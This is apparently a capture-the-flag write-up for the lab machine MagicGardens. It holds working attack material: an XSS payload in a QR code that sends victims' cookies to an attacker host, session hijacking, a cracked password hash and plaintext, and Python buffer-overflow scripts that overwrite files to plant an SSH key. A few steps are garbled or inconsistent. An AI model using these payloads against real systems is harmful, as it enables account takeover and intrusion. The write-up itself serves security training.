

Machine Info:
MagicGardens is a Linux Insane-level machine that involves multiple attack vectors, including web exploitation, binary exploitation, and privilege escalation via Linux capabilities. The machine requires a combination of XSS (Cross-Site Scripting) exploitation, buffer overflow attacks, and misconfigured Linux capabilities to escalate privileges and gain root access.

Enumeration:
Nmap:
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
| 256 e0:72:62:48:99:33:4f:fc:59:f8:6c:05:59:db:a7:7b (ECDSA)
|_ 256 62:c6:35:7e:82:3e:b1:0f:9b:6f:5b:ea:fe:c5:85:9a (ED25519)
25/tcp filtered smtp
80/tcp open http nginx 1.22.1
|_http-title: Magic Gardens
5000/tcp open ssl/http Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Not valid before: 2023-05-23T11:57:43
|_Not valid after: 2024-05-22T11:57:43
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
The Nmap scan reveals several open ports on the target machine, indicating potential attack vectors. Port 22 (SSH) is open, running OpenSSH 9.2p1, which could be checked for default credentials or vulnerabilities. Port 80 (HTTP) is hosting a website titled Magic Gardens on Nginx 1.22.1, making it a candidate for web-based enumeration. Additionally, port 5000 (SSL/HTTP) is running a Docker Registry (API: 2.0), which could be misconfigured, allowing access to container images or credentials. The SSL certificate associated with this service has expired, which might hint at a lack of maintenance. Lastly, port 25 (SMTP) is filtered, preventing immediate interaction but suggesting mail services might be in use. These findings guide the next steps in enumeration, focusing on web application vulnerabilities, Docker misconfigurations, and SSH access.
After identifying port 80 as an open HTTP service, I added the target's IP and the hostname magicgardens.htb to the /etc/hosts file to resolve the domain locally. Upon visiting the webpage, I began analyzing its content to gather potential clues for further exploitation.
Directory Enumeration:
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://magicgardens.htb/FUZZ
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://magicgardens.htb/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
admin [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 90ms]
login [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 88ms]
logout [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 104ms]
search [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 132ms]
register [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 139ms]
catalog [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 101ms]
cart [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 95ms]
profile [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 101ms]
subscribe [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 74ms]
check [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 59ms]
restore [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 66ms]
[Status: 200, Size: 30861, Words: 9340, Lines: 458, Duration: 60ms]
Using ffuf for directory enumeration, I discovered several interesting endpoints on the web server. Among them, the /admin directory stood out, returning a 301 status code, indicating a possible admin panel that could be worth further investigation. Other directories like /login, /register, and /profile suggest a user authentication system, while /cart and /catalog indicate e-commerce functionality. These findings provide multiple avenues for further exploration, with /admin being the most intriguing target.

Upon navigating to the /admin directory, I discovered the Django Admin interface, which is protected by a login page requiring a username and password.
Initial Foothold:
Continuing with the enumeration, I created a new account and successfully logged into the website.
While exploring its functionality, I attempted to order flowers, which was processed successfully.
After placing the order, I received a message stating that the manager would contact me for further details. Additionally, the site mentioned that showing a courier QR would grant a discount on delivery, but no actual QR code was provided. This suggests that the QR system might be generated elsewhere or accessed through a different mechanism, warranting further investigation.
While continuing the enumeration, We discovered a separate section for Messages and Subscriptions.
Within this section, I found that a subscription was required to obtain the QR code for the 25% discount. This indicated that the QR code was likely restricted to subscribed users, making the subscription system a potential target for further exploitation.

Subscription activation bypass:

After navigating to the Subscription section, I filled in the required details, including selecting a bank, entering a name, card number, and CVV. Upon submitting the form, I intercepted the corresponding POST request using Burp Suite.

Suspecting that the bank parameter might be vulnerable to Server-Site Request Forgery (SSRF), We forwarded the intercepted POST request to Burp Suite's Repeater for further analysis.

We modified the bank parameter in the intercepted request, changing its value from honestbank.htb to 10.10.x.x:1234, pointing to my own Python server
python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.129.231.24 - - [02/Feb/2025 18:50:29] code 501, message Unsupported method ('POST')
10.129.231.24 - - [02/Feb/2025 18:50:29] "POST /api/payments/ HTTP/1.1" 501 -
After sending the modified request, my Python server received a POST request from 10.129.231.24, indicating that the application attempted to communicate with the specified bank URL. However, the request resulted in a 501 Unsupported method ('POST') error.
Server.py:
To further exploit the potential SSRF vulnerability, we crafted a Flask server to properly handle the POST request sent by the application. The server was configured to listen on 0.0.0.0 at port 1234 and respond with a 200 status while echoing back the received JSON data.
from flask import Flask, jsonify, request
app = Flask(__name__)
@app.route('/api/payments/', methods=['POST'])
def handle_payment():
req_json = request.get_json()
req_json['status'] = "200"
print(req_json)
return jsonify(req_json)
if __name__ == '__main__':
app.run(host='0.0.0.0', port=1234)
After running the Flask server and re sending the manipulated request, the application successfully sent a POST request to my server at 10.10.x.x:1234.

The server processed the request and responded with a 200 OK status along with the modified JSON data, including the payment details.
python3 server.py
* Serving Flask app 'server'
* Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
* Running on all addresses (0.0.0.0)
* Running on http://127.0.0.1:1234
* Running on http://192.168.1.6:1234
Press CTRL+C to quit
{'cardname': 'test', 'cardnumber': '123456789', 'expmonth': 'june', 'expyear': '1233', 'cvv': '213', 'amount': 25, 'status': '200'}
10.129.231.24 - - [02/Feb/2025 18:55:57] "POST /api/payments/ HTTP/1.1" 200 -After modifying the bank parameter in the original request to point to my Flask server. Then forward the request .
To verify whether the subscription was successfully processed, It will navigated to /profile/?tab=subscription.

The application generated a request to /profile/?tab=subscription&action=success. This response confirmed that my subscription was successfully processed.

We received a GET request to /qr_code/images/server-qr-code-image/?txt=, indicating that the application is retrieving a QR code

With the subscription successfully bypassed, the application provided access to the QR code for the 25% discount on delivery. We could now download the QR image.

XSS in QR:
I used ScanQR to read the contents of the QR image.

Qrcode.py:
After extracting the original QR code's content, we crafted a malicious QR code embedding an XSS payload. The payload injects a <script> tag that sends the victim's cookies to my attacker's server when the QR code is scanned.
import qrcode
data = '''098f6bcd4621d373cade4e832627b4f6.0d341bcdc6746f1d452b3f4de32357b9.</p><script>var i=new Image(); i.src="http://10.10.14.38:7777/?cookie="+btoa(document.cookie);</script><p>'''
qr = qrcode.QRCode(box_size=10, border=4)
qr.add_data(data)
qr.make(fit=True)
img = qr.make_image(fill='black', back_color='white')
img.save("Modqr.png")Uploading the Malicious QR Code:

We found a message from Morty instructing me to upload the QR code to get a 25% discount.We uploaded the malicious QR code (Modqr.png) containing the XSS payload.

Once the QR code was scanned, we received an HTTP request containing the Base64-encoded cookie
python3 -m http.server 7777
Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
10.129.231.24 - - [02/Feb/2025 19:15:22] "GET /?cookie=Y3NyZnRva2VuPTZDbENHNlk2NHNpRlJld09uWXhRbzFJMGI5UUlZdGVXOyBzZXNzaW9uaWQ9LmVKeE5qVTFxd3pBUWhaTkZRZ01waFp5aTNRaExsdU5vVjdydnFnY3draXhGYmhNSjlFUHBvdEFEekhKNjN6cHVBcDdkOTc3SG01X1Y3MjY1bU80YkgtR3VKQk85UEJ1RTFUbkVfSVd3VGxubWtzYmdMVXRyRVRhZlEzTGRhVWdaWVlHd25WQ0g0ck9KNk5hdzBUTG1mel9TZHFLWnZ1OWt5YTY3UE9xR0htSEpFSGF6VEVuOVlmd29udnAzNlktQjZPQnpIQlM1Vk1qVkp2SWFlbk42dVhVZlpnTk9Kb2Z3VEJ0dG1XMEZyVTNWY0diTWdXbFJLY1dwdElJeTJSeXFmYTF0MC1vOVZZcXB5ckNhRzA2MWFtdXVoY0JDX2dEZXMyWDc6MXRlYUhvOm5JYTEzaS11LWZMRi0xM3NubWU3al9BV3hZS3RmbDZoOVExU1pGX2ZTLW8= HTTP/1.1" 200 -
After decoding the Base64 response, We successfully retrieved the session cookie
echo "Y3NyZnRva2VuPTZDbENHNlk2NHNpRlJld09uWXhRbzFJMGI5UUlZdGVXOyBzZXNzaW9uaWQ9LmVKeE5qVTFxd3pBUWhaTkZRZ01waFp5aTNRaExsdU5vVjdydnFnY3draXhGYmhNSjlFUHBvdEFEekhKNjN6cHVBcDdkOTc3SG01X1Y3MjY1bU80YkgtR3VKQk85UEJ1RTFUbkVfSVd3VGxubWtzYmdMVXRyRVRhZlEzTGRhVWdaWVlHd25WQ0g0ck9KNk5hdzBUTG1mel9TZHFLWnZ1OWt5YTY3UE9xR0htSEpFSGF6VEVuOVlmd29udnAzNlktQjZPQnpIQlM1Vk1qVkp2SWFlbk42dVhVZlpnTk9Kb2Z3VEJ0dG1XMEZyVTNWY0diTWdXbFJLY1dwdElJeTJSeXFmYTF0MC1vOVZZcXB5ckNhRzA2MWFtdXVoY0JDX2dEZXMyWDc6MXRlYUhvOm5JYTEzaS11LWZMRi0xM3NubWU3al9BV3hZS3RmbDZoOVExU1pGX2ZTLW8=" | base64 -d
csrftoken=6ClCG6Y64siFRewOnYxQo1I0b9QIYteW; sessionid=.eJxNjU1qwzAQhZNFQgMphZyi3QhLluNoV7rvqgcwkixFbhMJ9EPpotADzHJ63zpuAp7d977Hm5_V7265mO4bH-GuJBO9PBuE1TnE_IWwTlnmksbgLUtrETafQ3LdaUgZYYGwnVCH4rOJ6Naw0TLmfz_SdqKZvu9kya67POqGHmHJEHazTEn9Yfwonvp36Y-B6OBzHBS5VMjVJvIaenN6uXUfZgNOJofwTBttmW0FrU3VcGbMgWlRKcWptIIy2Ryqfa1t0-o9VYqpyrCaG061amuuhcBC_gDes2X7:1teaHo:nIa13i-u-fLF-13snme7j_AWxYKtfl6h9Q1SZF_fS-o Session hijacking :

Using the stolen session cookie, We was able to log in as Morty, gaining full access to his account without needing a password.

Since Morty is a staff member, We navigated to the previously discovered /admin directory.Upon visiting /admin, We successfully accessed the Django Administrator Panel

Inside the Django Admin Panel, I navigated to the Users section and found Morty's password hash.

Morty's password hash:
pbkdf2_sha256$600000$y7K056G3KxbaRc40ioQE8j$e7bq8dE/U+yIiZ8isA0Dc0wuL0gYI3GjmmdzNU+Nl7I=Using Hashcat, We were able to crack Morty's password.
hashcat -m 10000 -a 0 morty_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
OpenCL API (OpenCL 3.0 PoCL 6.0+debian Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i3-5005U CPU @ 2.00GHz, 2872/5808 MB (1024 MB allocatable), 4MCU
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP
Watchdog: Temperature abort trigger set to 90c
pbkdf2_sha256$600000$y7K056G3KxbaRc40ioQE8j$e7bq8dE/U+yIiZ8isA0Dc0wuL0gYI3GjmmdzNU+Nl7I=:jonasbrothers
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10000 (Django (PBKDF2-SHA256))
Hash.Target......: pbkdf2_sha256$600000$y7K056G3KxbaRc40ioQE8j$e7bq8dE...+Nl7I=
Time.Started.....: Sun Feb 2 18:30:27 2025 (2 mins, 57 secs)
Time.Estimated...: Sun Feb 2 18:33:24 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 12 H/s (7.32ms) @ Accel:32 Loops:512 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2176/14344385 (0.02%)
Rejected.........: 0/2176 (0.00%)
Restore.Point....: 2048/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:599552-599999
Candidate.Engine.: Device Generator
Candidates.#1....: slimshady -> telefon
Hardware.Mon.#1..: Temp: 73c Util: 95%
Started: Sun Feb 2 18:30:25 2025
Stopped: Sun Feb 2 18:33:25 2025
Now that we have Morty's credentials, we can use SSH to log into the target machine.
ssh morty@10.129.73.58
The authenticity of host '10.129.73.58 (10.129.73.58)' can't be established.
ED25519 key fingerprint is SHA256:QixQoCpRoi98/2NP9t4cSa8PUu3paHIhrFzgDRKBmlM.
This host key is known by the following other names/addresses:
~/.ssh/known_hosts:205: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.73.58' (ED25519) to the list of known hosts.
morty@10.129.73.58's password:
Linux magicgardens 6.1.0-20-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.85-1 (2024-04-11) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
morty@magicgardens:~$
Lateral Movement:
We checked the network interfaces using ip a, confirming that I was in a Docker container
morty@magicgardens:~$ ip a
<SNIP>
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
link/ether 02:42:c0:6d:65:47 brd ff:ff:ff:ff:ff:ff
inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
valid_lft forever preferred_lft forever
inet6 fe80::42:c0ff:fe6d:6547/64 scope link
valid_lft forever preferred_lft forever
<SNIP>
After enumerating the system , I found another user, Alex, by reading the /etc/passwd file
morty@magicgardens:~$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
alex:x:1000:1000:alex,,,:/home/alex:/bin/bash
morty:x:1001:1001::/home/morty:/bin/bash
By running ps aux | grep alex, I found that Alex was running a process called harvest
morty@magicgardens:~$ ps aux | grep alex
alex 1801 0.0 0.2 18972 10648 ? Ss Jan31 0:00 /lib/systemd/systemd --user
alex 1802 0.0 0.0 102908 3060 ? S Jan31 0:00 (sd-pam)
alex 1821 0.0 0.0 2464 868 ? S Jan31 0:01 harvest server -l /home/alex/.harvest_logs
morty 44947 0.0 0.0 6332 2072 pts/0 S+ 23:16 0:00 grep alexI found that the harvest binary was located in /usr/local/bin and had executable permissions for all users
morty@magicgardens:/usr/local/bin$ ls -la
total 32
drwxr-xr-x 2 root root 4096 Sep 15 2023 .
drwxr-xr-x 10 root root 4096 Aug 23 2023 ..
-rwxr-xr-x 1 root root 22512 Sep 15 2023 harvestHarvest - Remote network analyzer:
morty@magicgardens:/usr/local/bin$ ./harvest
██░ ██ ▄▄▄ ██▀███ ██▒ █▓▓█████ ██████ ▄▄▄█████▓
▓██░ ██▒▒████▄ ▓██ ▒ ██▒▓██░ █▒▓█ ▀ ▒██ ▒ ▓ ██▒ ▓▒
▒██▀▀██░▒██ ▀█▄ ▓██ ░▄█ ▒ ▓██ █▒░▒███ ░ ▓██▄ ▒ ▓██░ ▒░
░▓█ ░██ ░██▄▄▄▄██ ▒██▀▀█▄ ▒██ █░░▒▓█ ▄ ▒ ██▒░ ▓██▓ ░
░▓█▒░██▓ ▓█ ▓██▒░██▓ ▒██▒ ▒▀█░ ░▒████▒▒██████▒▒ ▒██▒ ░
▒ ░░▒░▒ ▒▒ ▓▒█░░ ▒▓ ░▒▓░ ░ ▐░ ░░ ▒░ ░▒ ▒▓▒ ▒ ░ ▒ ░░
▒ ░▒░ ░ ▒ ▒▒ ░ ░▒ ░ ▒░ ░ ░░ ░ ░ ░░ ░▒ ░ ░ ░
░ ░░ ░ ░ ▒ ░░ ░ ░░ ░ ░ ░ ░ ░
░ ░ ░ ░ ░ ░ ░ ░ ░ ░
░
harvest v1.0.3 - Remote network analyzer
Usage: harvest <command> [options...]
Commands:
server run harvest in server mode
client run harvest in client mode
Options:
-h show this message
-l <file> log file
-i <interface> capture packets on this interface
Example:
harvest server -i eth0
harvest client 10.10.15.212
Please, define modeFrom the ss -tl output, I found that port 1337 was open and running the harvest service.
morty@magicgardens:/usr/local/bin$ ss -tl
State Recv-Q Send-Q Local Address:Port Peer Address:Port Process
LISTEN 0 37 127.0.0.1:59779 0.0.0.0:*
LISTEN 0 1 127.0.0.1:43393 0.0.0.0:*
LISTEN 0 5 0.0.0.0:1337 0.0.0.0:*
LISTEN 0 128 127.0.0.1:44003 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:35877 0.0.0.0:*
LISTEN 0 4096 0.0.0.0:5000 0.0.0.0:*
LISTEN 0 511 0.0.0.0:http 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:8000 0.0.0.0:*
LISTEN 0 128 0.0.0.0:ssh 0.0.0.0:*
LISTEN 0 100 0.0.0.0:smtp 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:http-alt 0.0.0.0:*
LISTEN 0 4096 [::]:5000 [::]:*
LISTEN 0 511 [::]:http [::]:*
LISTEN 0 128 [::]:ssh [::]:*
LISTEN 0 100 [::]:smtp [::]:* Since harvest v1.0.3 is a remote network analyzer, analyzing it locally could reveal vulnerabilities. Let's transfer it to our attacker machine for further inspection.
Start a Python HTTP Server on the target machine
morty@magicgardens:/usr/local/bin$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.10.14.12 - - [03/Feb/2025 00:49:47] "GET /harvest HTTP/1.1" 200 -
Transfer the Harvest Binary from the Target Machine
wget http://magicgardens.htb:1234/harvest
--2025-02-03 11:19:46-- http://magicgardens.htb:1234/harvest
Resolving magicgardens.htb (magicgardens.htb)... 10.129.73.58
Connecting to magicgardens.htb (magicgardens.htb)|10.129.73.58|:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 22512 (22K) [application/octet-stream]
Saving to: ‘harvest.1’
harvest.1 100%[=========================================================================================================================================>] 21.98K 123KB/s in 0.2s
2025-02-03 11:19:46 (123 KB/s) - ‘harvest.1’ saved [22512/22512]
Change File Permissions to executable
chmod +x harvestWe use strace to monitor file operations when running the harvest binary in server mode on my attacker machine
sudo strace -t -e trace=openat ./harvest server -l save.txt
[sudo] password for deepak:
11:23:19 openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
11:23:19 openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
[*] Listening on interface ANY
[*] Successful handshake
11:23:22 openat(AT_FDCWD, "/etc/localtime", O_RDONLY|O_CLOEXEC) = 6
11:23:22 openat(AT_FDCWD, "save.txt", O_WRONLY|O_CREAT|O_TRUNC, 0666) = 6
[!] Suspicious activity. Packages have been logged.
11:23:22 openat(AT_FDCWD, "save.txt", O_WRONLY|O_CREAT|O_TRUNC, 0666) = 6
[!] Suspicious activity. Packages have been logged.
11:23:22 openat(AT_FDCWD, "save.txt", O_WRONLY|O_CREAT|O_TRUNC, 0666) = 6
[!] Suspicious activity. Packages have been logged.
11:23:22 openat(AT_FDCWD, "save.txt", O_WRONLY|O_CREAT|O_TRUNC, 0666) = 6
[!] Suspicious activity. Packages have been logged.
11:23:22 openat(AT_FDCWD, "save.txt", O_WRONLY|O_CREAT|O_TRUNC, 0666) = 6
[!] Suspicious activity. Packages have been logged.
<SNIP>Run the harvest client to connect back to the server
./harvest client 127.0.0.1
[*] Connection to 127.0.0.1 1337 port succeeded
[*] Successful handshake
P--------------------------------------------------
Source: [f4:27:56:5a:5c:3f] [154.57.164.108]
Dest: [1c:39:47:ee:33:7a] [192.168.1.8]
Time: [11:23:24] Length: [71]
--------------------------------------------------
Source: [f4:27:56:5a:5c:3f] [52.214.95.214]
Dest: [1c:39:47:ee:33:7a] [192.168.1.8]
Time: [11:23:24] Length: [71]
--------------------------------------------------
<SNIP>harvest is logging network traffic to save.txt. The strace output confirms that it opens save.txt with write permissions (O_WRONLY|O_CREAT|O_TRUNC, 0666)
Reverse Engineering - Buffer overflow:
We used Ghidra to reverse engineer the harvest binary.
While analyzing the harvest binary in Ghidra, we found two suspicious functions: handle_raw_packets and log_packet.
handle_raw_packets
- The function
handle_raw_packetsis responsible for receiving network packets and processing them. It uses multiple buffers for storing packet data, timestamps, and MAC addresses
- The function declares a large stack buffer
char acStack_1001a [65554];- This buffer is 65,554 bytes (approximately 64 KB).
if (acStack_1001a[0] == 'E') {
print_packet(acStack_1001a, param_3, param_2, acStack_10048, acStack_10068, acStack_1007a, &bStack_10028);
}
if (acStack_1001a[0] == '') {
log_packet(acStack_1001a, param_3);
}
- There is no boundary check on
acStack_1001a
- The function assumes
acStack_1001acontains valid data but never verifies how much data is stored in it.
- If
acStack_1001ais overflowed, it can overwrite adjacent memory, potentially leading to stack corruption or remote code execution

log_packet
The function log_packet takes in two parameters:
param_1 (long): A pointer to a structure or memory location that contains network packet data.
param_2 (char *): A file path where the log should be written.
undefined2 local_ff88 [32680];
- This declares a large stack buffer of 32,680 × 2 bytes = 65,360 bytes.
- Large stack buffers can lead to stack overflows, especially when handling un-trusted data.
strcpy(local_38, param_2);local_38is only 40 bytes, butparam_2is a user-controlled file path.
- If
param_2is longer than 39 characters (excluding\0), it overflowslocal_38, leading to stack corruption and possibly arbitrary code execution.
strncpy((char *)local_ff88, (char *)(param_1 + 0x3c), (ulong)uVar1);
uVar1 = htons(*(uint16_t *)(param_1 + 4));
- This retrieves a 16-bit value from the packet and swaps the byte order.
- If
uVar1is larger than 32,680,strncpycan overflowlocal_ff88, corrupting the stack.
local_10 = fopen(local_38,"w");- If an attacker controls
param_2, they can overwrite arbitrary files (e.g.,/etc/passwdor.bashrc).
- This leads to arbitrary file overwrite, potentially achieving privilege

Testing buffer overflow:
To verify the buffer overflow vulnerability in handle_raw_packets, we crafted a test case by sending a large payload via a raw UDP socket over IPv6. Given that handle_raw_packets uses recvfrom() to read up to 65,535 bytes, we tested if it could handle oversized input properly.

Step-by-Step Buffer Overflow Testing in Harvest:
We conducted a local test to confirm the buffer overflow vulnerability in Harvest. The following steps were executed to monitor the application's behavior under an oversized input.
Step 1: Start strace on the Harvest Server
- We used
straceto monitor system calls, specifically tracking file operations (openat). This helps in detecting unexpected crashes or abnormal behavior.
sudo strace -t -e trace=openat ./harvest server -l save.txt
t: Adds timestamps to track execution timing.
e trace=openat: Filters system calls related to file opening, helping us identify improper file writes
Step 2: Connect the Harvest Client to the Server
- We established a connection between the client and server to ensure normal functionality before testing the exploit.
./harvest client 127.0.0.1
- The client communicates with the server, setting up the environment for the buffer overflow test.
- We sent an oversized UDP payload to Harvest using the following script:
import socket
# Define the server address (IPv6 loopback) and target port
server_address = ('::1', 6666)
# Create an IPv6 UDP socket
s = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
# Connect to the server
s.connect(server_address)
# Craft a large payload (65,500 'A' characters)
data = b'A' * 65500
# Send the payload
s.send(data)
print("[+] Sent test payload of 65,500 bytes")Step 4: Observing the Behavior
- After running the buffer overflow test script, we noticed the following key logs from
strace:
[*] Successful handshake
14:43:41 openat(AT_FDCWD, "/etc/localtime", O_RDONLY|O_CLOEXEC) = 6
14:43:42 --- SIGWINCH {si_signo=SIGWINCH, si_code=SI_KERNEL} ---
14:43:44 openat(AT_FDCWD, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", O_WRONLY|O_CREAT|O_TRUNC, 0666) = 6
[!] Suspicious activity. Packages have been logged.- The
[!] Suspicious activity. Packages have been logged.message confirms that our input was processed in an unintended way, further proving that we successfully triggered a buffer overflow in Harvest.
Overwriting a file:
Now that we have confirmed the buffer overflow, the next step is to test whether we can overwrite a file on the system using our exploit.
Step 1: Generate a unique pattern to help identify offsets
- To determine the exact offset for buffer overflow, we generate a unique cyclic pattern using Metasploit's
pattern_createutility.
└─$ msf-pattern_create -l 65500 > buffer.txt
└─$ wc buffer.txt
1 1 65501 buffer.txtStep 2: Prepare an empty target file (pwn.txt) to observe any changes
- Create an empty file (
pwn.txt) to monitor changes after the exploit:
└─$ touch pwn.txt
└─$ wc pwn.txt
0 0 0 pwn.txtStep 3: Start the Harvest server with strace monitoring file operations
sudo strace -t -e trace=openat ./harvest server -l save.txt
Step 4: Connect the Harvest client to the server5
./harvest client 127.0.0.1
Step 5: Execute the Python Exploit Code
- By using the following code, we send an oversized UDP payload to Harvest and overwrite the content in a specific file location.
import socket
server_address = ('::1',6666)
s = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
s.connect(server_address)
data = ''
with open('buffer.txt', 'rb') as f:
data = bytearray(f.read())
replace = b"/tmp/pwn.txt"
s.send(data[:65372] + replace)
Step 6: Observing the Behavior
This confirms that we have successfully overwritten the content in the specific file location.
└─$ wc pwn.txt
0 1 65372 pwn.txt
Local Privilege Escalation:
Overwriting Alex SSH:
Now that we have successfully exploited the buffer overflow vulnerability to overwrite arbitrary files, we can leverage this to gain SSH access.
- We will overwrite Alex’s
~/.ssh/authorized_keysfile with our own SSH public key.
- This will allow us to log in as Alex without needing a password
Step 1: Generate an SSH Key
To overwrite Alex’s authorized_keys file, we first need to generate an SSH key pair.
Run the following command to create a new SSH key:
ssh-keygen- We will use the contents of
my_key.pubto overwrite Alex’sauthorized_keysfile, allowing us to SSH into the system as Alex.
Step 2: Start the Harvest Server on the Attacker Machine
- Just like before, we need to start the Harvest server to capture and process incoming data. Run the following command:
sudo strace -t -e trace=openat ./harvest server -l save.txtStep 3: Connect Harvest Client from Morty to Our Server
- On Morty, execute the following command to connect the Harvest client to our attacker machine:
./harvest client <tuno>Step 4: Ensure Harvest Server is Ready
- Before executing the buffer overflow exploit, we need to send an initial request to ensure the Harvest server is ready to process input. Run the following command:
- This step ensures that the server is actively listening and ready for exploitation.
echo "harvest v1.0.3" > /dev/tcp/127.0.0.1/1337Step 5: Exploit Buffer Overflow to Overwrite Alex's SSH Authorized Keys
- We will now use the buffer overflow vulnerability to overwrite Alex's SSH authorized_keys file, allowing us to gain SSH access as Alex.
Requirements:
- The public key (
id_rsa.pub) will be written into Alex’s authorized_keys file.
- A separate SSH shell on Morty is needed to run this Python exploit.
import socket
HOST = '::1'
PORT = 1234
file = b'/home/alex/.ssh/authorized_keys'
nop = b'\r'
key_id_rsa = b'YOUR SSH Pulic key'
packet_size = 65370
server_address = (HOST, PORT)
s = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
try:
s.connect(server_address)
nop_padding = nop * (packet_size - len(key_id_rsa))
packet = nop_padding + b'\n' + key_id_rsa + b'\n' + file
s.send(packet)
print("Send success")
except Exception as e:
print(f"Error: {e}")
finally:
s.close()Step 6: SSH into Alex Using the Compromised Key
- Now that we have successfully overwritten Alex’s
authorized_keysfile with our SSH public key, we can log in as Alex using SSH:
ssh -i id_rsa alex@magicgardens.htb
Linux magicgardens 6.1.0-20-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.85-1 (2024-04-11) x86_64
...<snip>...
alex@magicgardens:~$ cat user.txt
329d467c************************Mail:
On connecting to SSH as alex, it said there was mail. There are two users with mailboxes in /var/spool/mail:
alex@magicgardens:/var/spool/mail$ ls
alex root
alex@magicgardens:/var/spool/mail$cat alex
From root@magicgardens.magicgardens.htb Fri Sep 29 09:31:49 2023
Return-Path: <root@magicgardens.magicgardens.htb>
X-Original-To: alex@magicgardens.magicgardens.htb
Delivered-To: alex@magicgardens.magicgardens.htb
Received: by magicgardens.magicgardens.htb (Postfix, from userid 0)
id 3CDA93FC96; Fri, 29 Sep 2023 09:31:49 -0400 (EDT)
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary="1804289383-1695994309=:37178"
Subject: Auth file for docker
To: <alex@magicgardens.magicgardens.htb>
User-Agent: mail (GNU Mailutils 3.15)
Date: Fri, 29 Sep 2023 09:31:49 -0400
Message-Id: <20230929133149.3CDA93FC96@magicgardens.magicgardens.htb>
